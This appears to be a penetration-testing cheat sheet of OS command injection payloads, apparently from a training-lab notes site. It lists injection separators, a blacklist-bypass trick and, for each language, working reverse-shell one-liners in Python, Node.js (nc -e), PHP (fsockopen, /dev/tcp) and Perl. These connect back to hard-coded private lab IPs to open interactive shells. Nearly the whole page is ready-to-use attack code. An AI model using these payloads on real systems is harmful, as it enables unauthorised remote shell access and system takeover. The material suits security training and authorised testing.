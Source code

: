 ```yaml
---
title: Useful Payloads
layout: default
parent: OS Command Injection
has_children: false
nav_order: 1
---
```


<h3>Tips:</h3>
1. Remember to URL encode characters (especially `&`) if not they will break the payload.
2. To escape double quotes in PHP inside double quotes, insert a backslash `\` before the double quotes that is inside.
3. World writable directories: `/tmp`, `/var/tmp`, `/dev/shm`
4. Found SSH keys? chmod 600, and need to have empty line at the end to make it work.



<h2>Operating System</h2>

Pipe:\
`|id`

Semicolon (simultaneous run):\
`;id`

&& (only run if the first command works):\
`&& id`

Logical Or (only run if first command fails):\
`|| id`

Linux only (wrapping command):\
`id`\
`$(id)`

Blind injection cases:\
`;sleep 10`

<h3>Linux specific tips:</h3>
To bypass blacklist can use null statement `$()`, for example `wh$()oami` will work as `whoami`.

<h2>Python</h2>
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.51",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

<h2>Node.js</h2>
`echo "require('child_process').exec('nc -nv 192.168.49.51 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js`

<h2>PHP</h2>
`php -r '$sock=fsockopen("192.168.45.199",9090);exec("/bin/sh -i <&3 >&3 2>&3");'`\
`php -r '$sock=fsockopen("192.168.45.199",9090);shell_exec("/bin/sh -i <&3 >&3 2>&3");'`\
`php -r '$sock=fsockopen("192.168.45.199",9090);system("/bin/sh -i <&3 >&3 2>&3");'`\
`php -r '$sock=fsockopen("192.168.45.199",9090);passthru("/bin/sh -i <&3 >&3 2>&3");'`\
`php -r '$sock=fsockopen("192.168.45.199",9090);popen("/bin/sh -i <&3 >&3 2>&3", "r");'`\
`php -r "system(\"bash -c 'bash -i >& /dev/tcp/192.168.45.199/443 0>&1'\");"`
Diagnose using phpinfo(), not a shell:\
`php -r 'phpinfo();'`

<h2>Perl</h2>
`perl -e 'use Socket;$i="192.168.49.51";$p=9090;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`